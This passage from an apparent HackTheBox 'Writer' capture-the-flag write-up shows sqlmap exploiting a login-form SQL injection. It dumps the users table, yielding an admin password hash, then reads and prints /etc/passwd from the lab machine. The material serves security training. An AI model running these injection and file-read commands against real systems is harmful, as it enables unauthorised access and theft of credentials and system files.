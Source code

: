 With this information, we can dump the usernames and passwords for all users:
```text
sqlmap -u "http://writer.htb/administrative" --data="uname=test&password=test" -D writer -T users -C username,password --dump

Database: writer
Table: users
[1 entry]
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| admin    | 118e48794631a9612484ca8b55f622d0 |
+----------+----------------------------------+
```

I'm unable to crack the password with john or by any other means, so we can move along for now.

Another feature of sqlmap is using the SQL injection we found to retrieve files from the victim machine. Here, we see it's able to pull down /etc/passwd:
```
sqlmap -u "http://writer.htb/administrative" --data="uname=test&password=test" --file-read=/etc/passwd

---removed some output of sqlmap---

❯ cat /home/gn0stic/.local/share/sqlmap/output/writer.htb/files/_etc_passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
kyle:x:1000:1000:Kyle Travis:/home/kyle:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
postfix:x:113:118::/var/spool/postfix:/usr/sbin/nologin
filter:x:997:997:Postfix Filters:/var/spool/filter:/bin/sh
john:x:1001:1001:,,,:/home/john:/bin/bash
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
```


[1]: https://app.hackthebox.com/users/114053
[2]: https://www.hackthebox.eu